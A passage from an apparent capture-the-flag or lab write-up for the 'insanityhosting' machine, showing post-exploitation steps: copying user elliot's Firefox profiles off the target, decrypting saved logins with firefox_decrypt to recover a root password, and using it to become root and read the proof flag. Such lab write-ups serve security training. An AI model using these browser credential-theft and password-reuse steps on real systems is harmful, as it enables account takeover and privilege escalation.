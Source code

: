 ```bash
[elliot@insanityhosting ~]$ hostname
insanityhosting.vm
[elliot@insanityhosting ~]$ hostname -I
192.168.171.124
[elliot@insanityhosting ~]$ cat local.txt
b8d2e498c0de9920e9b73aab0e0bfbfe
```

![34](screenshots/34.png)

Inside elliot's home directory, I find `.mozilla`, which indicates that some Firefox profiles are stored here. I archived them with `tar`, transferred them to my machine with `scp`, then decrypted the creds with [firefox_decrypt](https://github.com/unode/firefox_decrypt):

```bash
$ ~/hacking/tools/firefox_decrypt/firefox_decrypt.py .
2023-03-20 14:31:04,045 - WARNING - profile.ini not found in .
2023-03-20 14:31:04,045 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

Back on the target, `su` to root with this password:

```bash
[elliot@insanityhosting firefox]$ su root
Password:
[root@insanityhosting firefox]# cd /root
[root@insanityhosting ~]# cat proof.txt
ffffd56581648e120dd96240731c6fc2
```